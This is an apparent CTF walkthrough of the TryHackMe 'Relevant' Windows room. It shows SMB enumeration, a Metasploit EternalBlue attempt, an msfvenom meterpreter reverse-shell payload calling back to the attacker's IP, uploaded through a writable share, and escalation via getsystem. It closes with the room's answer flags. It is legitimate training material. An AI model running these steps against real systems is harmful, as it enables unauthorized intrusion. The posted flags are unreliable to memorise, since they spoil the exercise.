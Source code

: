 
# Relevant CTF Walkthrough

Relevant is a vulnerable server on TryHackMe.com<br />
<br />
<i>URL: https://tryhackme.com/room/Relevant<br />
THM Difficulty: Medium<br />
My Difficulty: TBA<br />
Target IP: 10.10.39.76<br />
AttackBox IP: 10.10.153.77<br />
</i>

# Enumeration

For our first command we will use rustscan, rustscan will scan all of the ports in around 3 seconds.<br />
```shell
rustscan -a 10.10.39.76
```
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Relevant/screenshots/SCREENSHOT1.png?raw=true)<br />
Now we know which ports are open, I run an Nmap scan with the flag -sV to find the service versions on the open ports.<br />
```shell
nmap -sV -sC -p80,135,139,445,3389,5985,49663,49667,49669 10.10.39.76
```
```shell
Starting Nmap 7.60 ( https://nmap.org ) at 2023-03-08 18:21 GMT
Nmap scan report for ip-10-10-39-76.eu-west-1.compute.internal (10.10.39.76)
Host is up (0.0054s latency).

PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds  Windows Server 2016 Standard Evaluation 14393 microsoft-ds
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=Relevant
| Not valid before: 2023-03-07T18:16:50
|_Not valid after:  2023-09-06T18:16:50
|_ssl-date: 2023-03-08T18:21:59+00:00; -1s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49663/tcp open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
MAC Address: 02:A8:11:CA:08:F3 (Unknown)
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_nbstat: NetBIOS name: RELEVANT, NetBIOS user: <unknown>, NetBIOS MAC: 02:a8:11:ca:08:f3 (unknown)
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard Evaluation 14393 (Windows Server 2016 Standard Evaluation 6.3)
|   Computer name: Relevant
|   NetBIOS computer name: RELEVANT\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2023-03-08T10:21:59-08:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-03-08 18:21:59
|_  start_date: 2023-03-08 18:17:08

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 94.63 seconds
```
We have found a few open ports with different services, let's try to find some vulnerabilities!

## SMB Service Enumeration

Firstly we'll try using the SMB enum scripts that Nmap has to offer<br />
```shell
nmap -p 139,445 -Pn -script smb-enum* 10.10.39.76
```
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Relevant/screenshots/SCREENSHOT7.png?raw=true)<br />
Interesting, we have read/write access on this share... We'll try to use that to exploit the service if we can't find anything else.<br />

Let's do the same thing but with the SMB vuln scripts to see if there are any vulnerabilities.<br />
```shell
nmap -p 139,445 -Pn -script smb-vuln* 10.10.39.76
```
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Relevant/screenshots/SCREENSHOT6.png?raw=true)<br />
Bingo! It looks like the SMB server is vulnerable to MS17-010. We'll enumerate more then exploit this!<br />

Let's have a look at the SMB service, we'll try to list the shares on the system to see if we can access anything.<br />
```shell
smbclient -L 10.10.39.76
```
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Relevant/screenshots/SCREENSHOT2.png?raw=true)<br />
We were able to list the shares without entering a password and it looks like we have access to the share "nt4wrksv". Let's try connecting to the share now and listing the contents.<br />
```shell
smbclient \\\\10.10.39.76\\nt4wrksv
ls
```
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Relevant/screenshots/SCREENSHOT3.png?raw=true)<br />
Ooh a file named ```passwords.txt``` let's download the file and have a look inside...
```shell
get passwords.txt
```
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Relevant/screenshots/SCREENSHOT4.png?raw=true)<br />
Inside we see two passwords that have been encoded... Looks like Base64 to me, let's try decoding them!<br />

Awesome! We have two accounts now.<br />

#Exploitation


## MS17-010 Remote Code Execution

We're going to use Metasploit to exploit the vulnerability, let's fire it up.<br />
```shell
msfconsole
```
Once we have Metasploit open we're going to select the module to use and then set the required options.<br />
```shell
use exploit/windows/smb/ms17_010_eternalblue
show options
set RHOSTS 10.10.39.76
set SMBUser Bill
set SMBPass Juw4nnaM4n420696969!$$$
exploit
```
... Damn that didn't work... Nevermind let's try something else!<br />

## Exploiting SMB Permissions

Earlier when we performed our Nmap scan with default scripts enabled, we saw that we had read/write permissions on the nt4wrksv share. Let's create a reverse shell with msfvenom.<br />
```shell
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.153.77 LPORT=4444 -f aspx > shell.aspx
```
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Relevant/screenshots/SCREENSHOT8.png?raw=true)<br />
Now let's upload it to the SMB share.
```shell
smbclient \\\\10.10.39.76\\nt4wrksv
put shell.aspx
```
Before getting the shell to run, we'll need to start our meterpreter reverse_tcp listener! Let's load up Metasploit to do this.<br />
```
msfconsole
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 10.10.153.77
set LPORT 4444
exploit
```
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Relevant/screenshots/SCREENSHOT9.png?raw=true)<br />
Now we have our listener, let's run the shell. We head over to our web browser and execute the shell.<br />
```shell
http://10.10.39.76:49663/nt4wrksv/shell.aspx
```
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Relevant/screenshots/SCREENSHOT10.png?raw=true)<br />
Success! Now we have our reverse meterpreter shell. (The target box crashed so I had to restart it, it's a new IP if you didn't notice.)<br />

## Escalating Privileges

Let's check what user we're on and then spawn a shell and check our privileges.<br />
```shell
getuid
shell
whoami /priv
```
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Relevant/screenshots/SCREENSHOT11.png?raw=true)<br />
Interesting... SeImpersonatePrivilege is enabled. We can use meterpreter to automatically elevate our privileges.<br />

Let's close our shell with Ctrl+C and use meterpreter to execute the following<br />
```shell
getsystem
getuid
```
Awesome! We have successfully elevated our privileges. Let's get the root flag and complete the box.<br />
```shell
cd C:/Users/Administrator/Desktop
cat root.txt
```
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Relevant/screenshots/SCREENSHOT12.png?raw=true)<br />


## Questions & Answers

Question 1:<br />
**What is the user flag?** THM{fdk4ka34vk346ksxfr21tg789ktf45}<br />

Question 2:<br />
**What is the root flag?** THM{1fk5kf469devly1gl320zafgl345pv}<br />

### Farewell, I hope you all enjoyed this write-up!

